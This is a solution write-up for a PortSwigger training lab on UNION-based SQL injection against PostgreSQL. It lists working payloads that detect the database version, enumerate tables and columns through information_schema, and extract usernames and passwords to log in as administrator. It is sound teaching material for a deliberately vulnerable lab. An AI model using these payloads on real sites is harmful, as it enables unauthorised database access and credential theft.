


# SQL injection attack, listing the database contents on non-Oracle databases

**Lab Url**: [https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)

## Objective

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.

## Solution

The category filter is vulnerable to SQL injection. We can use `UNION` attacks to enumerate the database schema and extract credentials.

### Step 1: Identify the database type

Confirm the database is PostgreSQL by querying its version:

```bash
/filter?category=Pets' UNION SELECT NULL, VERSION()--
```

Response:

```text
PostgreSQL 12.22 (Ubuntu 12.22-0ubuntu0.20.04.4) on x86_64-pc-linux-gnu
```

### Step 2: Determine the number of columns

```bash
/filter?category=Accessories' ORDER BY 2--
```

The query returns **two columns**.

### Step 3: List all tables

Query `information_schema.tables` to find table names:

```bash
/filter?category=Accessories' UNION SELECT NULL, table_name FROM information_schema.tables--
```



The response reveals a table likely to contain user data: `users_zxcvbl`.

### Step 4: List columns in the user table

Query `information_schema.columns` to find column names:

```bash
/filter?category=Accessories' UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name='users_zxcvbl'--
```



The columns include `username_wjxsgn` and `password_iylvak`.

### Step 5: Extract usernames

```bash
/filter?category=Accessories' UNION SELECT NULL, username_wjxsgn FROM users_zxcvbl--
```

### Step 6: Extract credentials

```bash
/filter?category=Accessories' UNION SELECT username_wjxsgn, password_iylvak FROM users_zxcvbl--
```

Log in as `administrator` with the extracted password to solve the lab.
